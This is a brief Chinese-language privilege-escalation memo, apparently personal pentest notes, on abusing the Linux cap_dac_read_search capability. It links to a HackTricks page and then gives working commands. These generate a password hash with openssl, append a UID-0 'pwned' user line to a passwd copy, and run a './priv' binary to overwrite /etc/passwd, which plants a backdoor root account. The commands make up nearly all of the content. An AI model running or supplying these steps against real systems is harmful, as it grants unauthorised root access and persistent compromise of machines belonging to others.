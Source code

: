 # cap\_dac\_read\_search滥用提权

脚本最好用2018kali，没报错

```bash
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_override
```

```bash
而后写入自己的密码

openssl passwd -1 rong
echo 'rong:$1$Dr9BtZXw$VZ7J.H58FZFtxZi3QdqWF.:0:0:pwned:/root:/bin/bash' >> passwd  
./priv /etc/passwd passwd
```

